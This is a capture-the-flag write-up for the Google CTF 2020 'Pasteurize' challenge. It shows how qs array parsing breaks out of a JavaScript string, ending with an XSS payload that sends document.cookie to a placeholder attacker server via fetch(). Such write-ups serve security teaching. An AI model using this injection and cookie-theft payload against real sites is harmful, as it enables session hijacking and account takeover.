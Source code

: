 ```yaml
---
layout: post
title: "[GoogleCTF 2020] Pasteurize"
author: Vie
---
```


# TL;DR

1. Escape out of the `const note` javascript variable by forcing the app's bodyparser(`npm qs`) to interpret your input as an array
2. Craft XSS payload to steal cookies and put it into a paste
3. Share your paste with TJMike to get the flag

# Pasteurize 

The first web challenge from Google CTF 2020. It's a simple website that holds "pastes", or notes, that take your input and store it onto a note webpage. You make a note, and then you can share it with some entity called "TJMike". Pretty cut and clear XSS attack. 

Unfortunately, it's not that simple: 

```html
<!-- TODO: Fix b/1337 in /source that could lead to XSS -->
<script>
        const note = "test";
        const note_id = "5f6552a8-b92b-424c-b5cb-8069212b081d";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
</script>
    
```

There's a `<script>` tag in the HTML of the note we create that takes our input, puts it into a `note` variable, and then cleans it using [DOMpurify](https://www.npmjs.com/package/dompurify). The DOMpurify npm library is a pretty robust one, and I doubt that Google wanted us to 0day it to solve this challenge. Can we escape out of that `note` variable? If we could, say, inject our own quotation marks in there? If we could, then since we're already in a Javascript context, we could do all sorts of commands and implanting an XSS payload would be pretty easy to do. What's also interesting is the presence of that suspicious HTML comment, just above the `<script>` tag. More on that in a second. 

Putting a pin on that - if we examine how the requests are made when we submit our note, we see that a POST request is made where our input is in that request body, given to the server to process accordingly.

How does the body of POST requests get parsed by the pasteurize application? Well, going back to that HTML comment we saw earlier, we can see for ourselves by going to the `/source` endpoint.

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

Amidst the rest of the code is this interesting declaration of how the app's bodyparser (what actually reads through a request body in the application) should work - in extended mode. Doing some [googling](https://stackoverflow.com/questions/55558402/what-is-the-mean-of-bodyparser-urlencoded-extended-true-and-bodyparser) reveals that setting bodyParser's extended mode to `true` means it will utilize the `qs` library to parse input. What does that mean for us?

The `qs` library can parse [strings and arrays](https://www.npmjs.com/package/qs) from request bodies. If you stipulate a parameter in the body as so:

```
pets[]=cat&dog
```

then `qs` will interpret it as an array:

```
pets: ['cat', 'dog']
```

Notice how the library will input its own quotation marks in the elements of the array. Can we leverage this behvaiour from `qs` to inject quotation marks for us? 

If you input into the body of the request:

```
content[] = ; alert(1); const ignore =
```

We can succesfully escape from that `note` variable from before and have an alert pop up when we visit the created note. Essentially, the `<script>` now looks like this:

```html
<script>
        const note = ""; alert(1); const ignore ="";
        const note_id = "5f6552a8-b92b-424c-b5cb-8069212b081d";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
</script>
```
And so the `alert` function is being correctly evaluated as javascript instead of as part of a string.

The rest of the challenge is a pretty cut and clear XSS - craft a payload that steals a cookie and sends it to your server on load of the note webpage, and share that with TJMike.

```
content[] = ; document.getElementByID('note-content').onLoad = fetch("SER.ver?Cookie="%2Bbtoa(document.cookie))
```
This payloads crafts the cookie into a GET URL query, so it's encoded in base64 to avoid potential URL issues with strange characters. Report your note to TJMike, and retrieve the cookie sent to your server...

![Reported](/assets/images/googlectf2020/pasteurize/StolenCookie.png) 

Now we just need to decode it! 

![Decoded](/assets/images/googlectf2020/pasteurize/DecodedCookie.png) 